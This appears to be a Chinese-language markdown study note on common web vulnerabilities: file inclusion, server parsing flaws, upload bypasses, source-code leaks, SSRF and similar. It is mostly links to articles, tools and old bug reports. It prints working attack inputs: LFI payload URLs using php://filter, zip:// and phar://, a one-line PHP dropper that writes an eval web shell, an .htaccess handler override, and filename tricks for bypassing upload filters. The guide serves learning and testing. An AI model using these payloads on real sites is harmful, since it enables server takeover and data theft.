

# web常见漏洞笔记

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

**文章**
- [聊聊安全测试中如何快速搞定 Webshell](https://www.freebuf.com/articles/web/201421.html)

---

# 任意文件下载-读取
**案例**
- [电信某分站配置不当导致敏感文件泄露](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-095088)
- [一个任意文件读取漏洞记录](https://toutiao.io/posts/423535/app_preview)
- [南方周末邮件服务器任意文件读取漏洞](http://wooyun.jozxing.cc/static/bugs/wooyun-2013-045426.html)

---

# 文件包含漏洞
**案例**
- [IKEA官网本地文件包含(LFI)漏洞分析 - 嘶吼 RoarTalk](http://www.4hou.com/vulnerable/13759.html)

**文章**
- [LFI、RFI、PHP 封装协议安全问题学习 - 骑着蜗牛逛世界](https://www.cnblogs.com/LittleHann/p/3665062.html#3831621)
- [php 文件包含漏洞 | Chybeta](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)
- [文件包含漏洞](https://blog.csdn.net/le0nis/article/details/52043732)
- [文件包含漏洞(绕过姿势) ](https://thief.one/2017/04/10/2/)
- [文件包含漏洞原理分析](https://zhuanlan.zhihu.com/p/25069779)
- [文件包含漏洞总结 | 瓦都剋](http://byd.dropsec.xyz/2016/07/19/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/)
- [本地文件包含漏洞利用技巧](https://www.secpulse.com/archives/55769.html)
- [Directory Traversal, File Inclusion, and The Proc File System](https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/)
- [Exploiting PHP File Inclusion – Overview | Reiners' Weblog](https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/)
- [Local File Inclusion with Magic_quotes_gpc enabled - NotSoSecure](https://www.notsosecure.com/local-file-inclusion-with-magic_quotes_gpc-enabled/)
- [Positive Technologies - learn and secure : Another alternative for NULL byte](https://blog.ptsecurity.com/2010/08/another-alternative-for-null-byte.html)
- [远程包含和本地包含漏洞的原理 - Kevins 的天空](https://blog.csdn.net/iiprogram/article/details/2349322)
- [聊聊安全测试中如何快速搞定Webshell](https://www.freebuf.com/articles/web/201421.html)

**几种利用方法**
- 常规利用

    `Payload: http://www.test.com/test.php?file=upload/hourse.jpg&x=phpinfo()`

- 文件协议读取

    其前提是得知道网站应用的绝对路径（物理路径）：

    `Payload: http://www.test.com/test.php?file=file://D:/Server/htdocs/test/upload/hourse.jpg&x=phpinfo()`

    结果和上面一样，只是地址栏链接不一样。

- 压缩包文件读取

    依然需要知道压缩包文件的绝对路径

    `Payload: http://www.test.com/test.php?file=zip://D:/Server/htdocs/test/upload/shell.zip%23shell.php&x=phpinfo())`

- phar:// 相对路径运行 PHP 文件

    当我们想要运行自己的 PHP 文件，该咋做呐？通过文件包含（include,require 这类函数），首先构造一个这样的文件，将 webshell.php 添加到压缩文件 .zip，然后将压缩包后缀名改为 .jpg 反正合法的文件后缀即可（一般的操作是这样的，当只能上传图片的时候），最后使用 phar:// 按照相对路径读取并执行文件。

    `Payload：http://www.test.php?file=phar://upload/shell.jpg/shell.php?x=phpinfo()`

- 读取源码

    当我们没法儿上传文件，但是又想读取文件的源码来寻找别的漏洞从而进一步利用该怎么做呐？同样的利用 php://filter/ 协议可以实现，要注意的是，因为编码问题，一般我们会将读取的文件先 Base64 编码一下输出：

    `Payload：http://www.test.com/test.php?file=php://filter/read=convert.base64-encode/resource=upload/shell.php`

---

# 文件解析漏洞
**文章**
- [解析漏洞总结 – erevus](http://www.vuln.cn/7070)

## IIS
**5.x/6.0 解析漏洞**

IIS 6.0 解析利用方法有两种

1. 目录解析

    `/xx.asp/xx.jpg`

2. 文件解析

    `wooyun.asp;.jpg `

第一种，在网站下建立文件夹的名字为 .asp、.asa 的文件夹，其目录内的任何扩展名的文件都被 IIS 当作 asp 文件来解析并执行。

例如创建目录 wooyun.asp，那么 `/wooyun.asp/1.jpg` 将被当作 asp 文件来执行。假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿 shell 了。

第二种，在 IIS6.0 下，分号后面的不被解析，也就是说 `wooyun.asp;.jpg` 会被服务器看成是wooyun.asp

还有 IIS6.0 默认的可执行文件除了 asp 还包含这三种
```
/wooyun.asa
/wooyun.cer
/wooyun.cdx
```

- **案例**
    - [网站安全狗IIS6.0解析webshell访问限制bypass](https://shuimugan.com/bug/view?bug_no=71861)
    - [网站安全狗免杀神技+IIS6.0解析WebShell访问限制Bypass](https://shuimugan.com/bug/view?bug_no=104444)
    - [网站安全狗IIS6.0解析webshell访问拦截bypass](https://shuimugan.com/bug/view?bug_no=128432)
    - [桃源网络硬盘&IIS6.0解析漏洞](https://shuimugan.com/bug/view?bug_no=2632)

## Nginx
**Nginx <8.03 畸形解析漏洞**

在默认 Fast-CGI 开启状况下,黑阔上传一个名字为 wooyun.jpg，内容为

`<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>`

然后访问 wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php

- **案例**
    - [用友软件某分站SQL注入漏洞+nginx解析漏洞](http://www.anquan.us/static/bugs/wooyun-2013-032250.html)
    - [新浪网分站多处安全漏洞（nginx解析+SQL注射等）小礼包 ](http://www.anquan.us/static/bugs/wooyun-2013-021064.html)
    - [kingsoft.com某x级域名nginx解析漏洞+爆路径 ](http://www.anquan.us/static/bugs/wooyun-2013-019253.html)

**Nginx <8.03 空字节代码执行漏洞**

影响版:0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37

Nginx 在图片中嵌入 PHP 代码然后通过访问 `xxx.jpg%00.php` 来执行其中的代码

## Apache

Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 wooyun.php.owf.rar “.owf”和”.rar” 这两种后缀是 apache 不可识别解析,apache 就会把 wooyun.php.owf.rar 解析成 php.

如何判断是不是合法的后缀就是这个漏洞的利用关键,测试时可以尝试上传一个 wooyun.php.rara.jpg.png…（把你知道的常见后缀都写上…）去测试是否是合法后缀

- **案例**
    - [安卓开发平台存在上传漏洞和 Apache 解析漏洞,成功获取 webshell](http://www.anquan.us/static/bugs/wooyun-2013-018433.html)

**.htaccess**

如果在 Apache 中 .htaccess 可被执行.且可被上传.那可以尝试在 .htaccess 中写入: `<FilesMatch "wooyun.jpg"> SetHandler application/x-httpd-php </FilesMatch>` 然后再上传 shell.jpg 的木马, 这样 shell.jpg 就可解析为 php 文件。

**CVE-2017-15715 Apache HTTPD 换行解析漏洞**

其 2.4.0~2.4.29 版本中存在一个解析漏洞，在解析 PHP 时，1.php\x0A 将被按照 PHP 后缀进行解析，导致绕过一些服务器的安全策略。

原理：在解析 PHP 时，1.php\x0A 将被按照 PHP 后缀进行解析。

用 hex 功能在 1.php 后面添加一个 \x0A



访问 http://10.10.10.131:8080/1.php%0A ，成功解析

---

## 其他

在 windows 环境下，`xx.jpg[空格]` 或 `xx.jpg.` 这两类文件都是不允许存在的，若这样命名，windows 会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被 windows 自动消除,这样也可以 getshell。

---

# 文件上传漏洞
**文章**
- [简单粗暴的文件上传漏洞](https://paper.seebug.org/560/)(https://mp.weixin.qq.com/s/e1jy-DFOSROmSvvzX_Ge5g)
- [Upload_Attack_Framework](https://www.slideshare.net/insight-labs/upload-attack-framework)

**靶场**
- [upload-labs](https://github.com/c0ny1/upload-labs)
    - [upload-labs 通关笔记](./实验/upload-labs通关笔记.md)

---

# 信息泄露漏洞
**文章**
- [谈谈源码泄露](https://blog.csdn.net/GitChat/article/details/79014538)
- [敏感文件泄露](http://www.myh0st.cn/index.php/archives/62/)

**工具**
- [lijiejie/BBScan](https://github.com/lijiejie/BBScan)

**目录遍历**
- **案例**
    - [京东商城两处任意目录遍历下载漏洞](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2016-0214222)

**GIT 源码泄露**
- **简介**

    当在一个空目录执行 git init 时,Git 会创建一个 .git 目录. 这个目录包含所有的 Git 存储和操作的对象. 如果想备份或复制一个版本库,只需把这个目录拷贝至另一处就可以了.

- **案例**
    - [大众点评某站点 git 泄漏源代码](http://www.anquan.us/static/bugs/wooyun-2015-0117332.html)

- **工具**
    - [lijiejie/GitHack](https://github.com/lijiejie/GitHack)
    - [gakki429/Git_Extract](https://github.com/gakki429/Git_Extract)

**SVN 源码泄露**

- **案例**
    - [我爱我家某处源码泄露](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-0149331)

- **工具**
    - [kost/dvcs-ripper](https://github.com/kost/dvcs-ripper)
    - [admintony/svnExploit](https://github.com/admintony/svnExploit)

**DS_Store 文件泄漏**
- **简介**

    .DS_Store 文件 MAC 系统是用来存储这个文件夹的显示属性的：比如文件图标的摆放位置.如果用户删除以后的副作用就是这些信息的失去.

    这些文件本来是给 Finder 使用的,但它们被设想作为一种更通用的有关显示设置的元数据存储,诸如图标位置和视图设置. 当你需要把代码上传的时候,安全正确的操作应该把 .DS_Store 文件删除才正确.

    因为里面包含了一些目录信息,如果没有删除,攻击者通过 .DS_Store 可以知道这个目录里面所有文件名称,从而让攻击者掌握了更多的信息.　

- **案例**
    - [TCL 某网站 DS_Store 文件泄露敏感信息](http://www.anquan.us/static/bugs/wooyun-2015-091869.html)

- **工具**
    - [lijiejie/ds_store_exp](https://github.com/lijiejie/ds_store_exp)

**网站备份压缩文件**
- **简介**

    该漏洞的成因主要有是管理员将备份文件放在到 web 服务器可以访问的目录下.

    该漏洞往往会导致服务器整站源代码或者部分页面的源代码被下载,利用.源代码中所包含的各类敏感信息,如服务器数据库连接信息,服务器配置信息等会因此而泄露,造成巨大的损失.

- **案例**
    - [百度某分站备份文件泄露](http://www.anquan.us/static/bugs/wooyun-2014-050622.html)
    - [乐友商城 24GB 代码与数据库敏感文件泄露](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-0124051)

**WEB-INF/web.xml 信息泄露**
- **简介**

    WEB-INF 是 Java 的 WEB 应用的安全目录.该目录原则上来说是客户端无法访问,只有服务端才可以可以访问.如果想在页面中直接访问其中的文件,必须通过 web.xml 文件对要访问的文件进行相应映射才能访问.

    WEB-INF 主要包含一下文件或目录：
    ```
    /WEB-INF/web.xml：Web 应用程序配置文件,描述了 servlet 和其他的应用组件配置及命名规则；
    /WEB-INF/classes/：含了站点所有用的 class 文件,包括 servlet class 和非 servlet class,他们不能包含在 .jar 文件中；
    /WEB-INF/lib/：存放 web 应用需要的各种 JAR 文件,放置仅在这个应用中要求使用的 jar 文件 , 如数据库驱动 jar 文件；
    /WEB-INF/src/：源码目录,按照包名结构放置各个 java 文件；
    /WEB-INF/database.properties：数据库配置文件.
    ```
    不过在一些特定的场合却会让攻击者能读取到其中的内容,从而造成源码泄露.

- **案例**
    - [华为官网 WEB-INF 目录配置文件导致信息泄露](http://www.anquan.us/static/bugs/wooyun-2013-022906.html)

**idea 文件夹泄露**
- **工具**
    - [lijiejie/idea_exploit](https://github.com/lijiejie/idea_exploit)

**phpinfo**
- **文章**
    - [phpinfo 可以告诉我们什么](http://zeroyu.xyz/2018/11/13/what-phpinfo-can-tell-we/)
    - [PHPINFO 中的重要信息](https://www.k0rz3n.com/2019/02/12/PHPINFO%20%E4%B8%AD%E7%9A%84%E9%87%8D%E8%A6%81%E4%BF%A1%E6%81%AF/)
    - [amazing phpinfo() ](https://skysec.top/2018/04/04/amazing-phpinfo/)
    - [phpinfo 中值得注意的信息](https://seaii-blog.com/index.php/2017/10/25/73.html)

- **工具**
    - [proudwind/phpinfo_scanner](https://github.com/proudwind/phpinfo_scanner) - 抓取 phpinfo 重要信息 - 我这里运行报错,解决方法是把15行的3个 nth-child 改为 nth-of-type

**jsonp 信息泄露**
- **文章**
    - [jsonp 原理详解——终于搞清楚 jsonp 是啥了](https://blog.csdn.net/hansexploration/article/details/80314948)

- **案例**
    - [中国联通某站 jsonp 接口跨域导致信息泄漏并可开通某些套餐 (运营商额外插入功能带来的风险) ](https://shuimugan.com/bug/view?bug_no=172305)
    - [京东商城 JSONP+CSRF 导致某处信息泄露](https://shuimugan.com/bug/view?bug_no=121266)
    - [迅雷某站 jsonp 劫持漏洞泄漏会话 ID,cookie](https://shuimugan.com/bug/view?bug_no=121639)
    - [唯品会某处 JSONP+CSRF 泄露重要信息](https://shuimugan.com/bug/view?bug_no=122755)
    - [新浪微博之点击我的链接就登录你的微博(JSONP 劫持)](https://shuimugan.com/bug/view?bug_no=204941)
    - [苏宁易购多接口问题可泄露用户姓名、地址、订单商品 (jsonp 案例) ](https://shuimugan.com/bug/view?bug_no=118712)
    - [通过 jsonp 可以获得当前用户的 QQ+crsf 刷收听](https://shuimugan.com/bug/view?bug_no=70690)
    - [利用 JSONP 劫持可以泄漏 QQ 号](https://shuimugan.com/bug/view?bug_no=65177)
    - [京东商城某处 jsonp 接口可泄露任意用户的搜索记录](https://shuimugan.com/bug/view?bug_no=44210)
    - [新浪微博 JSONP 劫持之点我链接开始微博蠕虫+刷粉丝](https://shuimugan.com/bug/view?bug_no=171499)
    - [fanwe O2O 用户密码可劫持 (通用/开源软件 jsonp 劫持案例) ](https://shuimugan.com/bug/view?bug_no=124949)

**JS 敏感信息泄露**
- **文章**
    - [JS 敏感信息泄露：不容忽视的 WEB 漏洞](https://www.secpulse.com/archives/35877.html)

---

# CSRF
**文章**
- [CSRF 的攻击与防御](http://www.secbox.cn/hacker/5742.html)

---

# http参数污染
**文章**
- [Web 应用里的 HTTP 参数污染 (HPP) 漏洞](https://blog.csdn.net/eatmilkboy/article/details/6761407)
- [浅谈绕过 waf 的数种方法](https://www.waitalone.cn/waf-bypass.html)
- [通过 HTTP 参数污染绕过 WAF 拦截](http://www.freebuf.com/articles/web/5908.html)

---

# php反序列化
**工具**
- [php 在线反序列化工具](https://www.w3cschool.cn/tools/index?name=unserialize)

---

# SSRF

很多 web 应用都提供了从其他的服务器上获取数据的功能。使用用户指定的 URL，web 应用可以获取图片，下载文件，读取文件内容等。这个功能如果被恶意使用，可以利用存在缺陷的 web 应用作为代理攻击远程和本地的服务器。这种形式的攻击称为服务端请求伪造攻击（Server-side Request Forgery）。

**文章**
- [SSRF 漏洞分析及利用](https://www.knowsec.net/archives/85/)
- [浅析 SSRF 原理及利用方式](https://www.anquanke.com/post/id/145519)
- [SSRF 利用与防御](https://hellohxk.com/blog/ssrf/)
- [聊一聊ssrf漏洞的挖掘思路与技巧](https://bbs.ichunqiu.com/thread-49370-1-1.html)

**payload**
- [bugbounty-cheatsheet/cheatsheets/ssrf.md](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/ssrf.md)

---

# URL跳转漏洞
**文章**
- [URL 重定向及跳转漏洞](http://www.pandan.xyz/2016/11/15/url%20%E9%87%8D%E5%AE%9A%E5%90%91%E5%8F%8A%E8%B7%B3%E8%BD%AC%E6%BC%8F%E6%B4%9E/)
- [分享几个绕过 URL 跳转限制的思路](https://www.anquanke.com/post/id/94377)

---

# CRLF Injection
**文章**
- [新浪某站CRLF Injection导致的安全问题](https://www.leavesongs.com/PENETRATION/Sina-CRLF-Injection.html)
